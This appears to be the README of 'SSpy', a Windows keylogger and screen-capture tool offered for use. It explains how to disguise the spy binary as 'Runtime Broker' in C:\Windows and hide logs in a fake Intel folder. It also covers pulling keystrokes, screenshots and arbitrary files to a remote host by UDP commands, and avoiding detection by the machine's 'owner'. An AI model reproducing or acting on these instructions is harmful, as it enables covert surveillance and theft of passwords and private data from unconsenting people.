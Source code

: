 # SSpy
**Current version: 0.32 alpha**

SSpy is a keylogger & screenshoter based on the Windows system services. Once installed as a service, he is going to capture all data provided.

Program was tested on Windows 10 and was written in Visual Studio 17.

### More about application
Application is split between 2 programs. SSpy is a base application that handle service operations such as install, remove service and he also makes sure that Spy app works correctly. When SSpy start working, he will install Spy program named `Runtime Broker`, located `C:\Windows` folder. After installation Spy application is running by itself and its job is to handle and save all keyboard input and capture screenshot provided by user to `timestamp.txt` and `timestamp.jpg` files located at `C:\ProgramData\Intel\AGS\Temp\Logs`. And it also listens udp message and act by messages like start or stop service, send captured data, send any data in path by message from udp message app(this is another project, I named it `ai`). Captured screens are jpeg files and file size is normally 100KB per image. You can set image quality, file size is depend on image quality. Currently jpeg image quality is 30(of 100). If it's hard to recognize captured image, increase quality to 40 or 50 or even higher. But file size will be increased.
Keystrokes are logged in timestamp.txt(e.g. 0713164723.txt). Function keys like `Enter`, `Delete`, `Arrow Up`, ... are logged with unpersand(`&`)following key name and with space(e.g. ` &Enter `, ` &Delete `, ` &Up `). alphabet and numbers and special keys(`~!@#$%^...`) are stored as character. Space is also stored as character(` `). `Enter` and `Tab` makes new line in log file. Every new line has its timestamp when first character of line is stored. Keylog file will be made newly with current timestamp if there's no keylog file in folder. If file exist, key strokes are stored to existing log file.

##### Action by Message
1 - start capture
2 - pause capture
3 - send captured data, delete after send, continue capture
4 - send captured data, delete after send, pause capture
path - send any data in path followed argument.(e.g. `ai send xx.xx.xx.xx:80 d:\foldername`)
**important note: I couldn't test with folder which its name contain space like "dev tools" or "windows 10".
if you give space, the word followed space will be set as next argument. if you need to copy even folder with space in its name, contact me.**

You are using this application at your own risk.

### Working On
- [ ] change hardcoded paths
- [ ] major improvements to Spy application
- [ ] help

### How to use this application

##### Before Compile
1. You need to share a folder with write permission
2. At other's computer, open your shared folder, enter your username and password to open. It will help Spy app to send captured data to this shared folder.
3. Replace your ip address and shared folder name in Spy project/Spy.cpp/#38: `remotepath` e.g. `\\\\192.168.1.3\\sharedfolder\\`
4. Replace capture screenshot time interval(currently it's 2 second. it means capture 1 screen in every 2 seconds)

##### Compile
Compilation is handled manually for now. To compile this program you need **Windows Vista or later and a C compiler**.
I compiled with Visual Studio 2022(17.10.4) in Windows 10.
SSpy uses wtsapi32.lib, Userenv.lib and Spy uses gdiplus.lib, ws2_32.lib, Pathcch.lib. ai uses ws2_32.lib. Add them to project property/Configuration properties/Linker/Input/Additional Dependencies. Or add `#pragma comment(lib, "ws2_32.lib") ... ` in cpp files. Some libraries might be useless, I'm not sure.

##### Install / Remove service
1. Make sure that SSpy and Spy is compiled & rebuilded and copy Spy.exe to `C:\windows` and change file name to `Runtime Broker`(without any file extension).
2. To install service, in the folder where `SSpy.exe` exist, open CMD.exe console with Administrator permission and write `SSpy.exe install` command. You can install simply by Run as administrator `SSpy.exe`.
3. I'm not sure reboot OS is required or not. I tested without reboot but it works well.
4. After install, open service manager(Win + R, services.msc) and start `Runtime Broker Service`.
5. If firewall asks to allow app, click OK.
Service starts capture and stores captured data to `C:\ProgramData\Intel\AGS\Temp\Logs`

There's nothing more to do. Captured data will take some capacity of hard disk, so take care to send captured data regularly or at least pause capture. Otherwise owner might detect by increasing hard disk used data capacity. one image file size is 100KB. capture 1 image per 2 second. It means 50KB/s. 50KB * 60 * 60 * 24 * 4 = 17280000KB If you didn't copy and delete captured data for 4 days, stored data size would be 17.28GB. If you take one per 5s, it will decrease to 6.912GB. hh

To uninstall service, stop service in service manager, write command `SSpy.exe remove`. It will remove service and delete file `Runtime Broker` in `C:\Windows`.

### Appendix
Check Readme in ai project to learn how to control spy app.